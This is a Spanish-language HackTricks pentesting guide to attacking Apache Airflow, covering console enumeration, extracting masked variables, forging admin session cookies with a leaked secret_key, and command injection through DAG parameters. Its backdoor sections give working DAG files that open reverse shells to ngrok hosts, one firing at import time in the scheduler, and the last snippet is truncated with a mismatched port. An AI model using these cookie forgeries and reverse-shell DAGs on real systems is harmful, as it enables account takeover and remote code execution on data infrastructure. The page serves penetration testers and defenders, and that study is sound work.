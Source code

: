 # Seguridad en Apache Airflow

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información Básica

[**Apache Airflow**](https://airflow.apache.org) sirve como una plataforma para **orquestar y programar flujos de datos o flujos de trabajo**. El término "orquestación" en el contexto de flujos de datos significa el proceso de organizar, coordinar y gestionar flujos de trabajo de datos complejos que provienen de diversas fuentes. El propósito principal de estos flujos de datos orquestados es proporcionar conjuntos de datos procesados y consumibles. Estos conjuntos de datos son ampliamente utilizados por una miríada de aplicaciones, incluyendo, pero no limitado a, herramientas de inteligencia empresarial, modelos de ciencia de datos y aprendizaje automático, todos los cuales son fundamentales para el funcionamiento de aplicaciones de big data.

Básicamente, Apache Airflow te permitirá **programar la ejecución de código cuando algo** (evento, cron) **suceda**.

## Laboratorio Local

### Docker-Compose

Puedes usar el **archivo de configuración de docker-compose de** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) para lanzar un entorno completo de docker de apache airflow. (Si estás en MacOS asegúrate de asignar al menos 6GB de RAM a la VM de docker).

### Minikube

Una forma fácil de **ejecutar apache airflow** es hacerlo **con minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Configuración de Airflow

Airflow podría almacenar **información sensible** en su configuración o podrías encontrar configuraciones débiles:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## RBAC de Airflow

Antes de comenzar a atacar Airflow, debes entender **cómo funcionan los permisos**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Ataques

### Enumeración de la Consola Web

Si tienes **acceso a la consola web**, podrías ser capaz de acceder a alguna o toda la siguiente información:

* **Variables** (Información sensible personalizada podría estar almacenada aquí)
* **Conexiones** (Información sensible personalizada podría estar almacenada aquí)
* Acceder a ellas en `http://<airflow>/connection/list/`
* [**Configuración**](./#airflow-configuration) (Información sensible como el **`secret_key`** y contraseñas podrían estar almacenadas aquí)
* Listar **usuarios y roles**
* **Código de cada DAG** (que podría contener información interesante)

### Recuperar Valores de Variables

Las variables pueden ser almacenadas en Airflow para que los **DAGs** puedan **acceder** a sus valores. Es similar a los secretos de otras plataformas. Si tienes **suficientes permisos**, puedes acceder a ellas en la GUI en `http://<airflow>/variable/list/`.\
Por defecto, Airflow mostrará el valor de la variable en la GUI, sin embargo, según [**esto**](https://marclamberti.com/blog/variables-with-apache-airflow/), es posible configurar una **lista de variables** cuyo **valor** aparecerá como **asteriscos** en la **GUI**.

![](<../../.gitbook/assets/image (79).png>)

Sin embargo, estos **valores** aún pueden ser **recuperados** a través de **CLI** (necesitas tener acceso a la DB), **ejecución de DAG arbitrario**, **API** accediendo al endpoint de variables (la API necesita estar activada), y **¡incluso la propia GUI!**\
Para acceder a esos valores desde la GUI simplemente **selecciona las variables** que quieras acceder y **haz clic en Acciones -> Exportar**.\
Otra forma es realizar un **fuerza bruta** al **valor oculto** usando el **filtro de búsqueda** hasta obtenerlo:

![](<../../.gitbook/assets/image (30).png>)

### Escalada de Privilegios

Si la configuración de **`expose_config`** está establecida en **True**, desde el **rol de Usuario** en adelante se puede **leer** la **configuración en la web**. En esta configuración, aparece el **`secret_key`**, lo que significa que cualquier usuario con este valor válido puede **crear su propia cookie firmada para suplantar cualquier otra cuenta de usuario**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Puerta trasera en DAG (RCE en trabajador de Airflow)

Si tienes **acceso de escritura** al lugar donde se **guardan los DAGs**, simplemente puedes **crear uno** que te enviará una **shell inversa.**\
Ten en cuenta que esta shell inversa se ejecutará dentro de un **contenedor de trabajador de airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Puerta trasera en DAG (RCE en el programador de Airflow)

Si configuras algo para ser **ejecutado en la raíz del código**, en el momento de escribir esto, será **ejecutado por el programador** unos segundos después de colocarlo dentro de la carpeta de DAGs.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Creación de DAG

Si logras **comprometer una máquina dentro del clúster de DAG**, puedes crear nuevos **scripts de DAGs** en la carpeta `dags/` y serán **replicados en el resto de las máquinas** dentro del clúster de DAG.

### Inyección de Código en DAG

Cuando ejecutas un DAG desde la GUI puedes **pasar argumentos** al mismo.\
Por lo tanto, si el DAG no está codificado correctamente podría ser **vulnerable a la Inyección de Comandos.**\
Eso es lo que ocurrió en este CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Todo lo que necesitas saber para **empezar a buscar inyecciones de comandos en DAGs** es que los **parámetros** se **acceden** con el código **`dag_run.conf.get("param_name")`**.

Además, la misma vulnerabilidad podría ocurrir con las **variables** (nota que con suficientes privilegios podrías **controlar el valor de las variables** en la GUI). Las variables se **acceden con**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Si se utilizan, por ejemplo, dentro de un comando bash, podrías realizar una inyección de comandos.

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
